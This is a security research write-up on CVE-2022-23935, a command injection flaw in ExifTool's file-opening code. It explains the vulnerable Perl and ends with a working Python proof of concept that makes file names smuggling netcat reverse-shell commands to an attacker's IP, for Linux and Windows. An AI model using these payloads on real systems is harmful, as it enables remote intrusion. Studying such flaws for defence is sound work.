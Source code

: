 ```yaml
---
title: CVE-2022-23935 - CVE Research
time: 2025-07-30 12:00:00
categories: [research]
tags: [research,CVE]
image: /assets/posts/CVE-2022-23935/1.png
---
```


## Introduction
## 🔒 CVE-2022-23935 Summary


| Field               | Information                     |
|--------------------|----------------------------------|
| **CVE ID**         | CVE‑2022‑23935                   |
| **CVSS Score**     | 7.8 (**HIGH**)                   |
| **Affected**       | ExifTool before version 12.38   |
| **Vulnerability**  | OS Command Injection             |
| **Release Date**   | 25/01/2022                       |

## Methodology
##### `lib/Image/ExifTool.pm` in ExifTool before 12.38 mishandles a `$file =~ /\|$/` check, leading to command injection.
### Analyst source code 
##### I started by downloading version 12.34 from the [github of Exiftool](https://github.com/exiftool/exiftool/releases/tag/12.34)
##### Open the Perl file located at `lib/Image/ExifTool.pm`
##### The vulnerability was found in the `Open` function.

```perl
sub Open($*$;$)
{
    my ($self, $fh, $file, $mode) = @_;

    $file =~ s/^([\s&])/.\/$1/; # protect leading whitespace or ampersand
    # default to read mode ('<') unless input is a pipe
    $mode = ($file =~ /\|$/ ? '' : '<') unless $mode;
    if ($mode) {
        if ($self->EncodeFileName($file)) {
            # handle Windows Unicode file name
            local $SIG{'__WARN__'} = \&SetWarning;
            my ($access, $create);
            if ($mode eq '>') {
                eval {
                    $access  = Win32API::File::GENERIC_WRITE();
                    $create  = Win32API::File::CREATE_ALWAYS();
                }
            } else {
                eval {
                    $access  = Win32API::File::GENERIC_READ();
                    $access |= Win32API::File::GENERIC_WRITE() if $mode eq '+<'; # update
                    $create  = Win32API::File::OPEN_EXISTING();
                }
            }
            my $share = 0;
            eval {
                unless ($access & Win32API::File::GENERIC_WRITE()) {
                    $share = Win32API::File::FILE_SHARE_READ() | Win32API::File::FILE_SHARE_WRITE();
                }
            };
            my $wh = eval { Win32API::File::CreateFileW($file, $access, $share, [], $create, 0, []) };
            return undef unless $wh;
            my $fd = eval { Win32API::File::OsFHandleOpenFd($wh, 0) };
            if (not defined $fd or $fd < 0) {
                eval { Win32API::File::CloseHandle($wh) };
                return undef;
            }
            $file = "&=$fd";    # specify file by descriptor
        } else {
            # add leading space to protect against leading characters like '>'
            # in file name, and trailing "\0" to protect trailing spaces
            $file = " $file\0";
        }
    }
    return open $fh, "$mode$file";
}
```
##### `$mode = ($file =~ /\|$/ ? '' : '<') unless $mode;` means: if the filename ends with `|`, open a pipe (`$mode = ''`), otherwise open in read mode (`$mode = '<'`).
##### If `$mode = '<'`, then the code runs: `open $fh, "<$file"` (read the file).
##### However, `$file =~ s/^([\s&])/.\/$1/;` only protects against leading whitespace or `&`, and **does not sanitize the rest of the filename**.
##### If I rename the file to `a.jpg|whoami|` (note: `|whoami|` at the end), then `$mode = ''`, so code executes: `open $fh, "a.jpg|whoami|"`.
## Exploitation
##### I tested with the file named `a.jpg|whoami|`
![image](/assets/posts/CVE-2022-23935/2.png)
##### Based on the information, the file name is confirmed as `a.jpg`, not `a.jpg|whoami|`, which indicates that the exploit was successful. However, since `a.jpg` doesn't exist, the whoami command was not executed.
##### So I added the file a.jpg to the folder and renamed it to a reverse shell payload.
![image](/assets/posts/CVE-2022-23935/3.png)
##### Also, open port 4444 on the attacker’s machine to start listening.

```
nc -lvnp 4444
```
##### After running, the file a.jpg was opened and the reverse shell connected successfully.
![image](/assets/posts/CVE-2022-23935/4.png)
![image](/assets/posts/CVE-2022-23935/5.png)
##### Try sending a message to the victim.
![image](/assets/posts/CVE-2022-23935/6.png)
![image](/assets/posts/CVE-2022-23935/7.png)
##### Now, I will write a proof of concept (PoC) for this vulnerability.

```python
import argparse
import requests
import shutil
import zipfile
import os

parser = argparse.ArgumentParser()
parser.add_argument("victim_os", help="Victim's OS: linux or windows")
parser.add_argument("attacker_ip", help="Attacker's IP address")
parser.add_argument("attacker_port", help="Attacker's port")
args = parser.parse_args()

victim_os = args.victim_os.lower()
attacker_ip = args.attacker_ip
attacker_port = args.attacker_port

image_url = "https://i.pinimg.com/736x/c9/ee/6d/c9ee6d47f7b18fc4e27dc77eb71d53d3.jpg"
response = requests.get(image_url)
with open("image.jpg", "wb") as f:
    f.write(response.content)
print("[+] Image downloaded: image.jpg")

if victim_os == "linux":
    malicious_name = f"image.jpg|nc {attacker_ip} {attacker_port} -e /bin/sh|"
elif victim_os == "windows":
    nc_url = "https://github.com/int0x33/nc.exe/raw/refs/heads/master/nc.exe"
    response = requests.get(nc_url)
    with open("nc.exe", "wb") as f:
        f.write(response.content)
    malicious_name = f"image.jpg|nc.exe {attacker_ip} {attacker_port} -e cmd.exe|"
else:
    print("[-] Invalid OS. Only 'linux' or 'windows' are accepted.")
    exit()

shutil.copyfile("image.jpg", malicious_name)
print(f"[+] Malicious file created: {malicious_name}")
print("Run: nc -lvnp " + attacker_port + " on the attacker's machine to receive the victim's connection.")
```











